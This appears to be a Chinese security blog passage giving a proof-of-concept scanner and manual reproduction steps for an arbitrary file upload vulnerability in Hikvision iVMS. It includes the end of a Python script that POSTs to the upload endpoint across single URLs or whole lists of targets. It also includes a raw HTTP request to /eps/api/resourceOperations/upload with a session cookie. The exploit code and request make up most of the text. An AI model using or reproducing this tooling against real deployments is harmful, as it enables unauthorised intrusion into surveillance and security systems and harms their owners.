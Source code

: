```
    try:
        response = requests.post(url=pocurl,headers=head,data=data,verify=False,timeout=3)
        if response.status_code==200:
            print(Fore.GREEN + f"[+]{url}存在海康威视iVMS 综合安防任意文件上传漏洞！！！！")
        else:
            print(Fore.RED + f"[-]{url}不存在海康威视iVMS 综合安防任意文件上传漏洞")
    except:
        pass

if __name__ == '__main__':
    parser = argparse.ArgumentParser(usage='python3 ivms.py -u http://xxxx\npython3 ivms.py -f file.txt',
                                     description='ivms漏洞检测poc',
                                     )
    p = parser.add_argument_group('ivms 的参数')
    p.add_argument("-u", "--url", type=str, help="测试单条url")
    p.add_argument("-f", "--file", type=str, help="测试多个url文件")
    args = parser.parse_args()
    if args.url:
        poc(args.url)
    if args.file:
        for i in open(args.file,"r").read().split("\n"):
            poc(i)
```  
  
**使用方式：**  
  
单个url检测：  
```
python3 ivms-poc.py -u url
```  
  
多个url检测:  
```
python3 ivms-poc.py -f file.txt


```  
  
效果：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic9LzmnJO5uPFia32pzDD7BbsMew5Gz33Xy78zZpBdiaEp256Ga0G0VrhyQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**手动复现**  
  
漏洞url:/eps/api/resourceOperations/upload  
  
bp抓取首页包，尝试访问接口（发现token需要进行鉴权）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic943YiclKKJJBN4CRSgK6rEDjs5qvKZunxibu5LroT2L3Cwe4x5j8NuJag/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
```
POST /eps/api/resourceOperations/upload HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://you-ip
Connection: close
Cookie: ISMS_8700_Sessionname=7634604FBE659A8532E666FE4AA41BE9
Upgrade-Insecure-Requests: 1
Content-Length: 62

service=http%3A%2F%2Fx.x.x.x%3Ax%2Fhome%2Findex.action
```  
  